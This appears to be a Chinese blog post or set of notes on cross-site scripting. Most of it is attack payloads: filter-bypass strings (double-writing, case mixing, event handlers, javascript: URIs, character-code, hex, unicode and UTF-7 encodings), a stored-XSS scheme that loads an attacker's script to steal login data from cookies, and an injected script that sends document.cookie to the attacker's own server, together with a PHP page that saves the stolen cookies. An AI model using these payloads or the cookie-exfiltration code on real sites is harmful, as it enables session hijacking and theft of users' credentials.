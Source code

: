 ```yaml
---
published: true
---
```

## XSS
   指恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入Web里面的html代码会被执行，从而达到恶意用户的特殊目的。  
### Reflect xss： 
   它通过给别人发送带有恶意脚本代码参数的URL，当URL地址被打开时，特有的恶意代码参数被HTML解析、执行。它的特点是非持久化，必须用户点击带有特定参数的链接才能引起。下面博客很好的讲述了反射型XSS的利用:  
http://netsecurity.51cto.com/art/201311/417201.htm  

对于xss防御的绕过方式：   
1.双写绕过  
输入

	<sc< script>ript>alert(/xss/)< /script>


2.大小写混淆绕过  

	< ScRipt>alert(/xss/)< /script>   
    
3.

	< img src=1 onerror=alert(/xss/)> 
    
4.当<>被转译为&lt时

 	" onmouseover=alert(document.domain) x=“  
    
   （x=" 用于闭合  “>）  
 或者
 
 	" onmouseover=alert(document.domain)>  
    
5.javascript :alert();#js伪协议在a标签的使用,可以在输入时构造a标签  

  	 < a  href=javascript :alert(1)>test< /a>
     
6.当script被替换xscript时，尝试用tab制表(%09)绕过  

 	 < a href=javas%09cript:alert(1)>test< /a> 
     
但是制表符使用在单个标签之内，会被浏览器`正确`去除，然而在跨标签的时候（即闭合前面原有标签，使用在构造者构造的新标签的时候)不会被消除，使用&#09 tab制表符html十进制编码：javascri&#09pt:alert()   

7.特殊字符进行轮换，比如'(单引号)转换为\'，"(双引号)转换为\" ，\转换为\\。   
javascript中的String.fromCharCode方法来绕过，我们可以把alert("XSS");转换为   
String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41)那么我们的XSS语句就变成了 
< script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)< /script>    
(String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串。)   
8.进行hex编码来绕过XSS。  
< script>alert("xss");< /script> 可以转换为：   
%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%78%73%73%22%29%3b%3c%2f%73%63%72%69%70%74%3e

### Stored  xss  
把恶意脚本存储到被攻击者的网站的数据库。其他人访问数据库中的恶意脚本代码后，浏览器执行恶意脚本。 
思路  
1.通过nodeJS在后端开启两个不同端口的服务，即两个不同域的站点。  
2.被攻击者网站  
 a:在登录时，把用户的用户名、密码信息存入cookie中  
 b.有一个评论功能，用户在文本框内输入评论信息，然后提交到服务器。  
3.攻击者在评论处输入< script src='hack.js'>< /script>,点击提交后这段脚本存入到数据库  
 hack.js文件是攻击者网站的js脚本文件，用来获取用户的cookie中的用户名、密码信息，并且把用户名、密码发送到攻击者指定的网站。  
4.当网站的用户访问带有评论< script src='hack.js'>< /script>信息时，会下载hack.js文件，并且执行，网站被攻击。  

### DOM XSS 
由于文档的某些输入输出没有过滤，攻击者可以插入js代码，在客户端进行攻击造成xss攻击。 常见于：document.location,document.URL,document.URLUnencoded,document.referrer,windows.location等 
若插入的js被另一个文档对象所操作那么可以叫它为dom xss。   

1、构造document.write()的playload，如果<>被过滤时，可以使用16进制编码<变为\x3c，>为\x3e    
		\x3cscript\x3ealert(document.domain);\x3c/script\x3e 
  但是document.write在输出的时候会JavascriptDecode一下数据，会把数据原有\去除，所以要变为  
  \\x3cscript\\x3ealert(document.domain);\\x3c/script\\x3e   
2、\x不起作用可以考虑unicode编码   
     \\u003cimg src=x onerror=alert(document.domain)\\u003e   

### 当你注入了js，如何取得cookie呢？
1.编写js脚本利用存储型xss漏洞（留言板）来传输cookie到自己的服务器端  
      
      < script>  
      Var cook =document.cookie;   
      Var  img =‘< img src=“自己的服务器ip/get.php？cookie=‘+encodeURL(cook)+’ “ />’;  
      Document.write(img)  
      < /script>
      
2.本地编写get.php 获取传输的COOKEIE存入xss.txt.    

	<?php     
 	$cook=isset($_GET(‘cookie’))?$_GET(‘cookie’):NULL;     
	file_put_contents(“xss.txt”,$cook);   
	?>  
    
得到cookie后就能进行欺骗，想获得更多信息 查看js的document对象和windows对象，ajax请求.     


XSS小技巧   
1、eval(“alert(1)”);会当作js运行   
2、若是页面没有申明charset=UTF-8，那么可以使用UTF-7构造playload http://toolswebtop.com/text/process/decode/utf-7   
3、使用 ' //进行闭合,    ">来闭合value值   
4、有下拉选择框时，可能注入点不止一个，burp查看修改。可能也需要闭合
